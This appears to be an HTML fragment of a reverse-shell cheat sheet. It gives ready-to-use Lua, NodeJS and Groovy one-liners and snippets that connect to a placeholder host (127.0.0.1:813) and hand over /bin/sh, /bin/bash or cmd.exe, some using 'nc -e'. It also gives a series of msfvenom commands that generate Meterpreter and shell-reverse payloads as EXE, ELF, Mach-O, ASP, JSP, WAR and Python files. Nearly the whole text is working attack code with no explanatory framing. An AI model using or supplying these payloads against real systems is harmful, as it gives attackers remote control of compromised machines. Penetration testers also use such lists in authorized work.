 <h3>Lua:</h3>
Linux only
<pre id="lua01">lua -e "require('socket');require('os');t=socket.tcp();t:connect('127.0.0.1','813');os.execute('/bin/sh -i <&3 >&3 2>&3');"</pre>
Windows and Linux
<pre id="lua02">lua5.1 -e 'local host, port = "127.0.0.1", 813 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'</pre>

<h3>NodeJS:</h3>
<pre id="ndjs01">(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(813, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();</pre>
<pre id="ndjs02">require('child_process').exec('nc -e /bin/sh 127.0.0.1 813')</pre>
<pre id="ndjs03">-var x = global.process.mainModule.require
-x('child_process').exec('nc 127.0.0.1 813 -e /bin/bash')</pre>
<pre id="ndjs04">https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py</pre>

<h3>Groovy:</h3>

<pre id="groovy01">String host="127.0.0.1";
int port=813;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();</pre>

<h3>Meterpreter Shell:</h3>
<pre id="msf01">msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=813 -f exe > reverse.exe</pre>
<pre id="msf02">msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=813 -f exe > reverse.exe</pre>
<pre id="msf03">msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=813 -f elf >reverse.elf</pre>
<pre id="msf04">msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=813 -f elf >reverse.elf</pre>
<pre id="msf05">msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="127.0.0.1" LPORT=813 -f elf > shell.elf</pre>
<pre id="msf06">msfvenom -p windows/meterpreter/reverse_tcp LHOST="127.0.0.1" LPORT=813 -f exe > shell.exe</pre>
<pre id="msf14">msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=813 -f exe > shell.exe</pre>
<pre id="msf07">msfvenom -p osx/x86/shell_reverse_tcp LHOST="127.0.0.1" LPORT=813 -f macho > shell.macho</pre>
<pre id="msf08">msfvenom -p windows/meterpreter/reverse_tcp LHOST="127.0.0.1" LPORT=813 -f asp > shell.asp</pre>
<pre id="msf09">msfvenom -p java/jsp_shell_reverse_tcp LHOST="127.0.0.1" LPORT=813 -f raw > shell.jsp</pre>
<pre id="msf10">msfvenom -p java/jsp_shell_reverse_tcp LHOST="127.0.0.1" LPORT=813 -f war > shell.war</pre>
<pre id="msf11">msfvenom -p cmd/unix/reverse_python LHOST="127.0.0.1" LPORT=813 -f raw > shell.py</pre>